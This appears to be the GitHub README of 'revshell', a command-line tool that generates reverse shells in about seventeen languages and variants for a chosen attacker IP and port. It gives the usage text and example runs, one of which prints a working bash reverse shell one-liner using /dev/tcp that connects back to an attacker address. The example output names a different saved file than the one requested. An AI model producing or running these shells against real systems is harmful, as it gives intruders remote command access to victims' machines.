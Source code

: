 # revshell
A Reverse Shell Generator from CLI.


## Usage:
                                                                                                                                
                                                                                                                                             
            ▄▄▄▄▄                                             ▄▄▄▄  █             ▀▀█    ▀▀█                                                 
            █   ▀█  ▄▄▄   ▄   ▄   ▄▄▄    ▄ ▄▄   ▄▄▄    ▄▄▄   █▀   ▀ █ ▄▄    ▄▄▄     █      █                                                 
            █▄▄▄▄▀ █▀  █  ▀▄ ▄▀  █▀  █   █▀  ▀ █   ▀  █▀  █  ▀█▄▄▄  █▀  █  █▀  █    █      █                                                 
            █   ▀▄ █▀▀▀▀   █▄█   █▀▀▀▀   █      ▀▀▀▄  █▀▀▀▀      ▀█ █   █  █▀▀▀▀    █      █                                                 
            █    ▀ ▀█▄▄▀    █    ▀█▄▄▀   █     ▀▄▄▄▀  ▀█▄▄▀  ▀▄▄▄█▀ █   █  ▀█▄▄▀    ▀▄▄    ▀▄▄                                               
                                                                                              by @Masood2000                                                                       
                                                                                                                                             
                                                                                                                                             
                                                                                                                                             
usage: revshell.py [-h] --address IP_ADDRESS --port PORT [--output OUT_FILE]
                   {bash,php,php_one_liner,php_windows,perl,perl_windows,python,python2_windows,powershell,powershell_nishang,netcat,netcat_windows,netcat_windows_ps,lua,ruby,golang,awk}

positional arguments:
  {bash,php,php_one_liner,php_windows,perl,perl_windows,python,python2_windows,powershell,powershell_nishang,netcat,netcat_windows,netcat_windows_ps,lua,ruby,golang,awk}
                        The type of reverse shell you want to generate.

options:
  -h, --help            show this help message and exit
  --address IP_ADDRESS, -i IP_ADDRESS
                        The Attacker's IP Address.
  --port PORT, -p PORT  The Attacker's Listening Port.
  --output OUT_FILE, -o OUT_FILE
                        The Output file name of the reverse shell.
                        
          

## Usage from CLI:
### Not storing the output to a file
```bash
$ python3 revshell.py bash -i 192.168.100.1 -p 222
                                                                                                                                             
            ▄▄▄▄▄                                             ▄▄▄▄  █             ▀▀█    ▀▀█                                                 
            █   ▀█  ▄▄▄   ▄   ▄   ▄▄▄    ▄ ▄▄   ▄▄▄    ▄▄▄   █▀   ▀ █ ▄▄    ▄▄▄     █      █                                                 
            █▄▄▄▄▀ █▀  █  ▀▄ ▄▀  █▀  █   █▀  ▀ █   ▀  █▀  █  ▀█▄▄▄  █▀  █  █▀  █    █      █                                                 
            █   ▀▄ █▀▀▀▀   █▄█   █▀▀▀▀   █      ▀▀▀▄  █▀▀▀▀      ▀█ █   █  █▀▀▀▀    █      █                                                 
            █    ▀ ▀█▄▄▀    █    ▀█▄▄▀   █     ▀▄▄▄▀  ▀█▄▄▀  ▀▄▄▄█▀ █   █  ▀█▄▄▀    ▀▄▄    ▀▄▄                                               
                                                                   			      by @Masood2000                                                                              
                                                                                                                                             
                                                                                                                                             
                                                                                                                                             
[*] Shell is:
=========================
bash -i >& /dev/tcp/192.168.100.1/222 0>&1
=========================

```
### Storing the shell to a file:
```bash
$ python revshell.py bash -i 192.168.0.100 -p 9001 -o shell.sh
                                                                                                                                             
            ▄▄▄▄▄                                             ▄▄▄▄  █             ▀▀█    ▀▀█                                                 
            █   ▀█  ▄▄▄   ▄   ▄   ▄▄▄    ▄ ▄▄   ▄▄▄    ▄▄▄   █▀   ▀ █ ▄▄    ▄▄▄     █      █                                                 
            █▄▄▄▄▀ █▀  █  ▀▄ ▄▀  █▀  █   █▀  ▀ █   ▀  █▀  █  ▀█▄▄▄  █▀  █  █▀  █    █      █                                                 
            █   ▀▄ █▀▀▀▀   █▄█   █▀▀▀▀   █      ▀▀▀▄  █▀▀▀▀      ▀█ █   █  █▀▀▀▀    █      █                                                 
            █    ▀ ▀█▄▄▀    █    ▀█▄▄▀   █     ▀▄▄▄▀  ▀█▄▄▀  ▀▄▄▄█▀ █   █  ▀█▄▄▀    ▀▄▄    ▀▄▄                                               
                                                                                              by @Masood2000                                                                              
                                                                                                                                             
                                                                                                                                                                                                                                                                                   
[+] Successfully Stored reverse shell to file r.sh.

```
